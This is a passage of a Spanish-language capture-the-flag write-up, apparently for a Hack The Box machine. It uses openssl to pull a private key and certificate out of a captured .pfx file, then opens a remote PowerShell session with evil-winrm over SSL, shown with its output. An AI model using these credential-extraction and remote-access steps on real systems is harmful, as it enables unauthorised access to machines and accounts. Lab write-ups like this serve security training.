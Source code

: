 ```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out privkey -nodes
Enter Import Password:
```
```
ls

legacyy_dev_auth.pfx  privkey
```

Tenemos la llave privada, ahora iremos por el certificado:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificate.pem

Enter Import Password:
```

```
ls
certificate.pem  legacyy_dev_auth.pfx  privkey
```

Tenemos en nuestro poder la clave privada y el certificado, esto nos sirve pues al tenerlos podemos autenticarnos en la máquina utilizando `evil-winrm`:

```
Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX] [-l]
    -S, --ssl                        Enable ssl
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate

```

Haciendo uso de estas flags podemos entrar, sin embargo, hay un detalle, dentro de la captura de nmap podemos observar que el puerto 5986 está abierto pero por ssl:


```
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```
Por lo tanto, tenemos que utilizar la flag **-S** para realizar la conexión por ssl:

```
evil-winrm -i 10.10.11.152 -c certificate.pem -k privkey -S

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```
